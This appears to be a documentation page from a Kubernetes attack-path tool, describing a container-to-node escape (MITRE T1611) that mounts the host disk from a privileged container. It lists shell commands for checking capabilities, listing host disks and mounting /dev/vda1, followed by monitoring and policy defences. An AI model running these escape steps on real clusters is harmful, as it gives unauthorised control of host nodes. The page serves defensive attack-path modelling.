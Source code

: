 # EXPLOIT_HOST_READ

Exploit an arbitrary read from a sensitive host path mounted into the container to gain execution on the host.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md) | [Node](../vertices/NODE.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

## Details

TODO

## Prerequisites

Execution within a privileged container process.

See the [example pod spec](../../test/setup/test-cluster/attacks/EXPLOIT_HOST_READ_TRAVERSE.yaml).

## Checks

From within a running container, determine whether it is running with as privileged by examining capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff: 000001ffffffffff

# Decode the capabilities (on current box or offline) and check for CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=000001ffffffffff | grep cap_sys_admin
```

Check that the host disks are visible to our container process:

```bash
apt update && apt install fdisk
fdisk -l 
# -> /dev/vda1
```

## Exploitation

Mount the disks into the container

```bash
mkdir -p /mnt/hostfs
mount /dev/vda1 /mnt/hostfs
ls -lah /mnt/hostfs/
```

With the disk now writeable from the container, follow the steps in [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#Exploitation).

## Defences

### Monitoring

+ Monitor `mount` events originating from containers

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the root user. Specify an unprivileged user account using the `securityContext`.

## Calculation

[ExploitHostRead](../../pkg/kubehound/graph/edge/exploit_host_read.go)

## References:

+ [HackTricks Docker Breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

